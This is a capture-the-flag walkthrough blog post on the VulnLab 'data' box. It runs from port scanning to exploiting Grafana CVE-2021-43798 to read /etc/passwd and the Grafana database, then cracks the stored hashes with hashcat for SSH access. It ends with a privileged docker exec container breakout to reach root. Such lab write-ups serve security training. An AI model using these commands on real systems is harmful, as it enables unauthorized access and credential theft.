 ```yaml
---
layout: post
title:  "VulnLab | data"
description: "Walkthrough of data machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ./assets/img/ctf/vulnlab/data/data1.png
  alt: "data.vl"
category: "VulnLab"
tags: ["Linux", "CVE-2021-43798", "grafana database", "docker container"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[data](https://www.vulnlab.com/machines) is an easy rated linux box from vulnlab. The machine has only 2 open ports running SSH and Grafana, a popular open-source analytics and visualization platform commonly used for monitoring and observability through interactive dashboards. The foothold consist of exploiting grafana for CVE-2021-43798 in order to export the grafana database. We then crack `boris` password from the database and access the box over ssh.  To escalate to root, we abuse the fact that boris is allowed to to run `` as root to grand the grafana container additionals privileges and break out to access the host.

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.95.219
```
![rustscan](./assets/img/ctf/vulnlab/data/data2.png)

### Services Scanning
```bash
nmap -p22,3000 -sC -sV -v -oN data.full 10.10.95.219
```
```text
# Nmap 7.94SVN scan initiated Mon Nov 11 18:35:54 2024 as: nmap -p22,3000 -sC -sV -oN data.full 10.10.95.219
Nmap scan report for 10.10.95.219
Host is up (0.046s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:a9:1e:f7:a9:40:ee:1d:43:42:9c:61:26:4d:db:a2 (RSA)
|   256 99:94:2a:bb:8b:8c:05:99:c1:04:fd:6a:c9:6e:c2:f9 (ECDSA)
|_  256 b5:bf:ea:dd:4e:04:a7:1d:54:a3:6d:55:92:b3:96:63 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 11 Nov 2024 17:36:04 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 11 Nov 2024 17:36:10 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=11/11%Time=67324083%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Co
SF:ntrol:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nE
SF:xpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cook
SF:ie:\x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Co
SF:ntent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Pro
SF:tection:\x201;\x20mode=block\r\nDate:\x20Mon,\x2011\x20Nov\x202024\x201
SF:7:36:04\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Fo
SF:und</a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\
SF:nCache-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\
SF:nPragma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20H
SF:ttpOnly;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Fra
SF:me-Options:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x
SF:20Mon,\x2011\x20Nov\x202024\x2017:36:10\x20GMT\r\nContent-Length:\x200\
SF:r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\
SF:n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20cha
SF:rset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLS
SF:SessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Hostname
```bash
echo '10.10.95.219  data.vl'  >> /etc/hosts
```

## Foothold

### Port 3000
![grafana](./assets/img/ctf/vulnlab/data/data3.png)

```text
grafana v8.0.0 => CVE-2021-43798 => Unauthenticated file Read
```
```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/passwd -o test.txt
```
![/etc/passwd](./assets/img/ctf/vulnlab/data/data4.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /var/lib/grafana/grafana.db -o grafana.db
```
![grafana.db](./assets/img/ctf/vulnlab/data/data5.png)

```sql
select email,password,salt from user;
```
![grafana.db](./assets/img/ctf/vulnlab/data/data6.png)

```bash
python3 grafana2hashcat.py -o hashcat.txt hashes.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data7.png)

```sh
hashcat -m 10900 hashcat.txt --wordlist /usr/share/wordlists/rockyou.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data8.png)

### Port 22
```bash
ssh boris@data.vl
```
![boris ssh](./assets/img/ctf/vulnlab/data/data9.png)


## Privilege Escalation
```sh
sudo -l
```
![docker exec](./assets/img/ctf/vulnlab/data/data10.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/hosts -o test.txt
```
![container hostname](./assets/img/ctf/vulnlab/data/data11.png)

```bash
sudo /snap/bin/docker exec --user root --privileged -it e6ff5b1cbc85 sh
```
![container hostname](./assets/img/ctf/vulnlab/data/data12.png)

```bash
cat /proc/1/status | grep -i "seccomp"
df -h
```
![container hostname](./assets/img/ctf/vulnlab/data/data13.png)
```bash
mkdir -p /mnt/juggernaut 
mount /dev/xvda1 /mnt/juggernaut
ls -l /mnt/juggernaut
```
![container hostname](./assets/img/ctf/vulnlab/data/data14.png)

```bash
ls -l /mnt/juggernaut/root
```
![container hostname](./assets/img/ctf/vulnlab/data/data15.png)


## Kill Chain Summary
1. Exploit CVE-2021-43798 to get File Read Capabilities on the box.
2. Read grafana database.
3. Using grafana2hashcat and hashcat crack grafana database entries.
4. User boris is allowed to run `/snap/bin/docker exec *` as root without a password.
5. Using the docker exec command abuse the grafana container to become root.


## References
1. FootHold<br>
[exploit](https://gist.github.com/bryanmcnulty/0f013fb75e94140bae70de2b0e986e45)<br>
[grafana2hashcat](https://github.com/iamaldi/grafana2hashcat)<br>
[grafana_exploits](https://github.com/persees/grafana_exploits)<br>

2. Priv Escalation<br>
[docker exec](https://docs.docker.com/reference/cli/docker/container/exec/)<br>
[privileged container breakout](https://juggernaut-sec.com/docker-breakout-lpe/)<br>